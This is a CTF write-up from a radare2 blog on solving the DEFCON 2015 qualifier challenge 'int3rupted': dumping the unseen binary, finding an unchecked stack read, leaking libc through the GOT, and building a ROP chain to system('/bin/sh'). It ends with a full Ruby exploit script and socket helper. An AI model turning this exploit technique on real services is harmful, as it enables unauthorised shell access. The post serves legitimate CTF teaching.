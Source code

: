 +++
date = "2015-06-04T21:43:59+02:00"
draft = false
title = "Solving 'int3rupted' from defcon 2015 qualifier with r2"
slug = "solving-int3rupted-from-defcon-2015-qualifier-with-r2"
aliases = [
	"solving-int3rupted-from-defcon-2015-qualifier-with-r2"
]
+++
In previous blog posts we've shown how radare2 can be useful for exploiting "baby" level challenges. Let's show how we can use it to find the bug and ultimately exploit a 5 point pwning challenge from the [DEFCON 2015 qualifiers]( https://legitbs.net/ )!

You can find the binary [here]( https://github.com/ctfs/write-ups-2015/blob/master/defcon-qualifier-ctf-2015/pwnable/int3rupted/int3rupted_3bb8f10793b82841c44a366eb9f27223 ) if you want to play along at home.

To start with, in the challenge, we were just given a hostname and ip address, no binary was given! To simulate this, we can use `rarun2` to host the binary locally. The following line will run the binary on port 8888 on connections:
```
rarun2 program=./int3rupted_3bb8f10793b82841c44a366eb9f27223 listen=8888
```

So, let's try connection with `nc` to try to interact. After some spamming every character, we discover that if you type in `?` a help message is displayed.

```
impactsite ~/int3 » nc localhost 8888
> ?
Help menu:
        g - Begin execution
        db <addr> - Dump bytes at addr
        bp addr - Set breakpoint at addr
        c - Continue from breakpoint.
        ? - This text
>
```

So, now the name `int3rupted` makes sense! The `int3` instruction is defined for use by debuggers to temporarily replace an instruction in a running program in order to set a breakpoint. 

Because this is the binary is not provided, it's going to take some work to find the bug! As we have arbitrary read with `db <addr>` it will just take a bit of work to find the bug.

Checking through the loader script on Linux, amd64, we can see that the elf gets loaded at address `0x400000`, so you can start dumping from there.

```sh
impactsite ~ » cat /usr/lib/ldscripts/elf_x86_64.x | grep SEGMENT_START
  PROVIDE (__executable_start = SEGMENT_START("text-segment", 0x400000)); . = SEGMENT_START("text-segment", 0x400000) + SIZEOF_HEADERS;
  . = SEGMENT_START("ldata-segment", .);
```

![header](/images/elf_header.png)

Although it is a tedious process, you can dump the enough of the binary to load it up in your favorite disassembler.

So, quickly after reversing (which I will leave as an exercise to the reader), a high level overview of the binary is as follows.

- `g` goes to chance game
 - high score lets you write your name into *.bss area*
- `db` dump bytes - we used to dump bin
- `bp` sets breakpoint, write `0xCC` mark page as `R-X` (not `W`!) can’t do this to stack, b/c becomes unwritable :(
- `c` restore from breakpoint
- `?` print help text

Let's look at how int3rupted reads in the user's input. The function takes in a length, a fd to read from, a buffer to write to, and a "stop" character (newline).

![read_user_input](/images/disasm.png)

Oh, what's this?!? The "length" var is increased, but it's termination value is at `length == 0`. This means we have an _unchecked_ read.

Let's have a look at who else calls the `read_user_input` function.

![xrefs](/images/pd2.png)

Can it really be so simple, just a basic stack smash from `main_menu`? There is no `system` called in the binary, and there is *ASLR* activated, but if you recall, we have an arbitrary read, so we can just leak the addresses of libc functions, simple! There isn't even a stack canary to worry about.

Let's use `rabin2` to find the address to read in order to leak the libc function `puts`.

![puts](/images/rabin.png)

Let's just assume that it's on Ubuntu trusty, because all of the other challenges were. Otherwise there are some nice [database tools]( https://github.com/niklasb/libc-database ) to use.

So, from here, there is not much left to do. Just construct an exploit that does the following:

- leak libc address of puts
- compute offset of `/bin/sh\x00` and `system`
- `pop /bin/sh\x00` into `rdi`
- call `system`

Simple, right?

And like magic, we can get a shell! 5 easy points. The final exploit below has comments for the r2 commands to get the needed values (like rop gadgets and offsets).
![shell](/images/shell.png)

```ruby
#!/usr/bin/env ruby
require_relative 'shoe'

# host = "int3rupted_3bb8f10793b82841c44a366eb9f27223.quals.shallweplayaga.me"
# port = 52428

# rarun2 program=./int3rupted_3bb8f10793b82841c44a366eb9f27223 listen=8888
host = "localhost"
port = 8888

# ubuntu trusty libc
system_offset = 0x00046640 # is~name=system - from libc
binsh_offset = 0x0017ccdb # / /bin/sh\x00 - from libc
puts_offset = 0x0006fe30 # is~name=puts - from libc
exit_offset = 0x0003c290 # is~name=exit - from libc
# from int3rupted binary
poprdirbpret = 0x00401648 # "/R/ pop rdi;ret"
puts_got = 0x00603028 # iR~puts

@s = Shoe.new host, port

def read_menu
  @s.read_til_end 0.1
end

@s.say "?\n"
read_menu
puts "[!] dumping GOT address of puts"
@s.say "db 0x#{puts_got.to_s 16}\n"
str = read_menu
puts str.split(">")[0]
libc_base_addr = (str.split("-")[0].split(":")[1].reverse.split(" ").map{|i| i.reverse}.join("").to_i 16) - puts_offset
puts "[+] libc base is at 0x#{libc_base_addr.to_s 16}"
puts "[+] system is at 0x#{(libc_base_addr + system_offset).to_s 16}"
puts "[+] /bin/sh\\x00 is at 0x#{(libc_base_addr + binsh_offset).to_s 16}"
@s.say ("g\n")
read_menu
rop = "A" * 56
rop << [poprdirbpret].pack("Q") # get /bin/sh into rdi
rop << [libc_base_addr + binsh_offset].pack("Q") # /bin/sh into rdi
rop << "JUNKJUNK" # garbage popped into rbp
rop << [libc_base_addr + system_offset].pack("Q") # system("/bin/sh")
rop << [libc_base_addr + exit_offset].pack("Q") # exit cleanly :)
puts "[!] sending rop chain!"
@s.say "#{rop}\n"
str = read_menu
puts "[*] enjoy your shell"
@s.tie!
```
```ruby
require 'socket'
require 'timeout'
require 'rolling_timeout'

class Shoe < TCPSocket
  def recv_until str
    buf = ""
    until buf.end_with? str do
      buf << self.recv(1)
    end
    buf
  end

  def recv_until_re regex
    buf = ""
    while not regex.match buf
      buf << self.recv(1)
    end
    buf
  end

  def say str
    self.send str, 0
  end

  def read_n_seconds secs
    # requires native threads.
    # doesn't work with ruby 1.8.x or lower
    buf = ""
    begin
      timeout(secs) do
        loop {
          buf << self.recv(1)
        }
      end
    rescue Timeout::Error
    end
    buf
  end

  def read_til_end timeout
    # timeout is time between chars
    buf = ""
    begin
      RollingTimeout.new(timeout) { |timer|
        loop {
          buf << self.recv(1)
          timer.reset
        }
      }
    rescue Timeout::Error
    end
    buf
  end

  def tie!
    # kick off a thread just reading forever
    Thread.new { loop { $stdout.write(self.recv(4096)) } }
    str = ""
    loop {
      ch = $stdin.read_nonblock(1) rescue nil
      if ch == nil
        next
      end
      self.send ch, 0
    }
  end
end
```
